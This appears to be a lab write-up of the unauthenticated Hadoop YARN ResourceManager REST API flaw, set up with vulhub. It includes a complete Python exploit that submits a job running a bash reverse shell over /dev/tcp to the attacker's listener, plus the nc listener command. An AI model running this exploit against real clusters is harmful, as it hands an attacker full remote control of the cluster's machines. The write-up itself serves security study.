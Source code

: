 # Unauthorized Access Vulnerability in Hadoop YARN Resourcemanager

## Vulnerability Description

The ResourceManager component, responsible for managing and scheduling resources, has an open UI management interface on port 8080/8088, and the attacker can deploy tasks through the REST API without authentication, ultimately able to fully control all machines in the cluster by executing any command.

## Environment Setup

Using vulhub

Access the 8088 port, you can see the Hadoop YARN ResourceManager WebUI interface.

```
[root@localhost ~]# ls /opt/vulhub-master/hadoop/unauthorized-yarn/
docker-compose.yml  exploit.py  README.md

[root@localhost ~]# docker-compose up
```

访问8088端口，可以看到Hadoop [YARN](https://so.csdn.net/so/search?q=YARN\&spm=1001.2101.3001.7020) ResourceManager WebUI界面。

![image-20220516171700499](../../.gitbook/assets/image-20220516171700499.png)

## Vulnerability Exploitation

Start nc

```
[root@localhost ~]# nc -lvp 9999
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
```

Attack script

```
[root@localhost unauthorized-yarn]# cat exploit.py 
#!/usr/bin/env python

import requests

target = 'http://127.0.0.1:8088/'
lhost = '192.168.32.131' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

Successful attack succeeded

![image-20230130122815465](../../.gitbook/assets/image-20230130122815465.png)